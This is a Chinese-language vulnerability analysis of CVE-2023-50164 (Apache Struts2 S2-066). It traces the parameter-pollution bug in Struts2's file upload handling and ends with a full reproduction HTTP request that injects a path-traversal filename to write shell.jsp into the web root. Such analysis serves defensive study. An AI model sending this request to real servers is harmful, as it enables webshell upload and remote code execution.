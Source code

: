 

# 奇安信攻防社区 -（CVE-2023-50164）Apache Struts2 S2-066 文件上传漏洞分析

### （CVE-2023-50164）Apache Struts2 S2-066 文件上传漏洞分析

Struts2 官方披露 CVE-2023-50164 Apache Struts 文件上传漏洞，攻击者可利用该漏洞污染相关上传参数导致目录遍历，在具体代码环境中可能导致上传 Webshell，执行任意代码。

# 漏洞描述

Apache Struts2 是一个开源的 Java Web 应用程序开发框架，旨在帮助开发人员构建灵活、可维护和可扩展的企业级 Web 应用程序。近日，Struts2 官方披露 CVE-2023-50164 Apache Struts 文件上传漏洞，攻击者可利用该漏洞污染相关上传参数导致目录遍历，在具体代码环境中可能导致上传 Webshell，执行任意代码。

# 漏洞分析

Struts2 的默认配置通常包含`FileUploadInterceptor`，该拦截器负责处理文件上传，并将文件信息封装到相应的 Action 属性中。

## 正常文件上传

当我们使用默认配置上传文件，尝试路径穿越将文件上传至任意目录，测试发现无法路径穿越到任意目录

![image-20231210165300222](assets/1703064374-f30ad0eae188ccdc52d3cd3214296484.png)

我们在`FileUploadInterceptor#intercept()`打下断点，跟进代码

![image-20231210165628696](assets/1703064374-2b8395f6be137cbbecc7d69938720f25.png)

这里跟进`multiWrapper.getFileNames()`

![image-20231210170059050](assets/1703064374-fd460fa9135c6d5362e3b93a18d61930.png)

这里继续跟进`getCanonicalName()`

![image-20231210170542142](assets/1703064374-61ad12c3e56f4833b1ef2e455913fd80.png)

发现获取文件名是通过 substring 方法进行截取的，通过../../进行目录穿越是不行的。

## 参数污染

回到`FileUploadInterceptor#intercept()`中，在获取文件名后生成了两个变量`contentTypeName`和`fileNameName`

![image-20231210172857904](assets/1703064374-58ec00b43e3aeb8bff56a4d26184bceb.png)

![image-20231210180044724](assets/1703064374-18ac288b20ef444f0fd9d4a160d67981.png)

1.  检查每一个文件是否可以被接受 (根据配置规则检查，默认全部接受)
    
2.  对可以接受的文件，将其文件名、内容类型和文件内容分别保存到三个 List 中 (acceptedFileNames、acceptedContentTypes 和 acceptedFiles)
    
3.  如果接受的文件列表不为空，则将这三个 List 分别封装成 Parameter，并存入参数 Map 中：
    
    -   文件内容列表 acceptedFiles 封装成参数 inputName
    -   内容类型列表 acceptedContentTypes 封装成参数 contentTypeName
    -   文件名列表 acceptedFileNames 封装成参数 fileNameName
4.  最后将这个参数 Map 设置到上下文的 Parameters 中，在`ParametersInterceptor#setParameters()`中对这些参数赋值
    

跟进`ParametersInterceptor#setParameters()`

![image-20231210181151414](assets/1703064374-15b1c1703f07b4ef995235be00128d63.png)

这里采用`HttpParameters.create()`创建参数

而在新版本中，对 HttpParameters 做出了修改，变成了大小写不敏感，而在存在漏洞的版本中是大小写敏感的。

![image-20231210182522101](assets/1703064374-662f1dd22742fe12d30d048479048bdd.png)

这导致了这里 FileFileName 和 fileFileName 会是不同的参数，都会在`ParametersInterceptor#setParameters()`赋值

而后面采用了使用 OGNL 表达式调用 setter 方法对变量赋值

![image-20231210183238455](assets/1703064374-c8ee118b545479e122de9be64d79390c.png)

OGNL 在查找 setter 方法时，会自动把属性名第一个字母变成大写，然后查找 setXxx() 这样的方法。

例如，如果你有一个属性名为 "name",那么 OGNL 会查找 setName() 方法。在这个过程中，不管 name 在 OGNL 表达式中是大写还是小写，都可以正确找到 setter 方法。所以在 Struts 2 的 OGNL 表达式中，属性名的首字母大小写可以不敏感。

所以当我手动传入一个 fileFileName 参数，在这里也会被赋值，fileFileName 和 FileFileName 参数会被自动映射到同一个参数上。调用相应的 get 方法获取值时，会取得最后赋值的那个参数的值。

那么这两个参数的赋值先后顺序呢？如果我们手动传入的参数会后赋值，就可以覆盖掉前面的参数，造成参数污染。

在 TreeMap 中，键 (key) 的排序是大小写敏感的。默认的排序规则如下：

1.  大写字母会排在小写字母之前
2.  数字会排在字母之前

所以当文件上传的 name 构造为大写开头，手动传入的污染参数构造为小写开头即可

![image-20231210184928102](assets/1703064374-98c5ffe374f7362f51d4a3d8c0cc43aa.png)

# 漏洞复现

构造数据包：

POST /s2/upload.action?fileFileName=../webapps/ROOT/shell.jsp HTTP/1.1

Host: 192.168.31.185:8080

Content-Length: 416

Cache-Control: max-age=0

Origin: [http://192.168.31.185:8080](http://192.168.31.185:8080/)

DNT: 1

Upgrade-Insecure-Requests: 1

Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryjYgoTIxv686oqL3F

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10\_15\_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,\*/\*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: [http://192.168.31.185:8080/s2/](http://192.168.31.185:8080/s2/)

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

Connection: close

​

\------WebKitFormBoundaryjYgoTIxv686oqL3F

Content-Disposition: form-data; name="File"; filename="test.jsp"

Content-Type: application/octet-stream

​

test

\------WebKitFormBoundaryjYgoTIxv686oqL3F

Content-Disposition: form-data; name="submit"

​

submit

\------WebKitFormBoundaryjYgoTIxv686oqL3F--

文件上传成功，成功路径穿越到 webapps 目录下！

![image-20231210185327794](assets/1703064374-80e36dc1bd4025dc4329a0216b30cdd5.png)
